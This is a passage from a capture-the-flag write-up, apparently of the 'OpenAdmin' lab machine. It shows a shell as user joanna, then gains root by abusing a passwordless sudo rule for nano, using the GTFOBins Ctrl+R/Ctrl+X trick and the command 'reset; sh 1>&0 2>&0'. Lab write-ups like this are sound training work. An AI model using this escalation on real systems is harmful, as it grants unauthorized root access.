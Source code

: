 ```r
  Memory usage: 35%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Jan  2 21:12:40 2020 from 10.10.14.3
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)
joanna@openadmin:~$ 
```

Now we can read the user.txt!

```r
joanna@openadmin:~$ wc -c user.txt
33 user.txt
joanna@openadmin:~$ 
```

### Root User
Gaining root is easy! `sudo -l` command shows that user Joanna can run /bin/nano /opt/priv as the root user without entering a password. When you see that users can run nano as a root user, this is the easiest way to use it.

```r
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

Searching on <a href="https://gtfobins.github.io/gtfobins/nano/" rel=”nofollow”>GTFO Bins,</a> I found that we can exploit this by open the file with nano using:

`sudo nano /opt/priv`

Then press <i>Ctrl + R</i> and then <i>Ctrl + X</i>. After that enter the following command:

`reset; sh 1>&0 2>&0`

<center><br>
<img src="/assets/img/uploads/openadmin/root.png">
</center>
